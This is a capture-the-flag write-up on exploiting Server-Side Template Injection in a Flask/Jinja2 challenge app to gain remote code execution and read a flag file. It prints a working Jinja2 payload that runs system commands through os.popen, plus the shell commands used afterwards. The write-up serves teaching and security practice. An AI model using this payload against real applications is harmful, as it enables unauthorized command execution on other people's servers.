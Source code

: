 # CTF Writeup: **Server-Side Template Injection (SSTI) with RCE Exploit**

## Overview

In this challenge, we exploited a **Flask** web application vulnerable to **Server-Side Template Injection (SSTI)**. We escalated the vulnerability to **Remote Code Execution (RCE)**, allowing us to gain access to the system and retrieve the **flag**.

---

## Step-by-Step Exploitation

### 1. **Identifying the Vulnerability: SSTI**

The first step was to confirm that the application was vulnerable to **Server-Side Template Injection**. Since the web app used **Flask** with the **Jinja2** template engine, we tried injecting common Jinja2 syntax into user inputs.

#### Injecting Basic Jinja2 Payloads:

We injected the following simple expression into an input field to test for **SSTI**:
```python
{{7*7}}
```

**Expected Outcome**: If the server evaluates the expression and returns `49`, it confirms the presence of **SSTI**.

If this works and returns `49`, we know the app is vulnerable to **SSTI** and we can move forward to exploit it further.

---

### 2. **Escalating to Remote Code Execution (RCE)**

Once we confirmed **SSTI**, the next step was to escalate it to **Remote Code Execution (RCE)**.

#### Crafting a Payload to Execute Python Code

To execute arbitrary Python code on the server, we injected a payload that used the **`os.popen()`** method to execute a command:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

**Expected Outcome**: This payload should execute the `id` command on the server and return the current user information.

This step confirmed **RCE** on the server, and we were able to interact with the system.

---

### 3. **Exploring the File System**

With **RCE** confirmed, we started exploring the server file system to find useful files, such as the **flag**.

#### Checking the Contents of the `/challenge` Directory

The challenge files were likely stored in the `/challenge` directory, so we listed its contents:

```bash
ls -la /challenge
```

**Output**:
```bash
total 12
drwxr-xr-x 2 root root 32 Mar 17 13:49 __pycache__
-rwxr-xr-x 1 root root 1241 Mar 6 03:27 app.py
-rw-r--r-- 1 root root 58 Mar 6 19:44 flag
-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt
```

**Key Findings**:
- The `flag` file was present and had world-readable permissions (`rw-r--r--`).
- The `app.py` file was the main Python application, and we could inspect it to understand the app's logic further.
- We could also review `requirements.txt` to check the dependencies for any vulnerable packages.

---

### 4. **Accessing the Flag**

Since the `flag` file had read permissions for all users (`rw-r--r--`), we could directly access and read it:

```bash
cat /challenge/flag
```

**Flag Output**:
```
[REDACTED]
```

---

### 5. **Conclusion**

By exploiting **Server-Side Template Injection (SSTI)**, we gained **Remote Code Execution (RCE)** on the server, allowing us to explore the file system and retrieve the flag. This challenge demonstrates the critical security risk of improperly sanitizing user input in web applications using template engines like **Jinja2**.

---

## Flag

```
[REDACTED]
```

---

## Tools and Techniques Used

- **Flask** (Python web framework)
- **Jinja2** (Template engine)
- **Python** (Command execution via `os.popen()`)
- **Linux shell** (for navigating and reading files)

---

## Security Takeaway

This challenge highlights the importance of **sanitizing user input** when using template engines like **Jinja2**. **Server-Side Template Injection (SSTI)** can easily escalate to **Remote Code Execution (RCE)** if input is not properly handled, leading to severe vulnerabilities in web applications.